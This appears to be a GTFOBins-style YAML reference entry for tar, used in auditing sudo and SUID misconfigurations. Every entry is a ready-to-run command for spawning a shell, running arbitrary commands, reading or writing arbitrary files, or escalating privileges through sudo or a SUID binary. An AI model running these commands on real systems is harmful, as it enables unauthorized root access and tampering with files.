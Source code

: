 ```yaml
---
functions:
  execute-interactive:
    - code: tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  execute-non-interactive:
    - description: This only works for GNU tar.
      code: tar xf /dev/null -I '/bin/sh -c "id 1>&2"'
  file-write:
    - description: This only works for GNU tar.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo data > "$TF"
        tar c --xform "s@.*@$LFILE@" -OP "$TF" | tar x -P
  file-read:
    - description: This only works for GNU tar.
      code: |
        LFILE=file_to_read
        tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
  sudo-enabled:
    - code: sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  suid-limited:
    - code: ./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
---
```

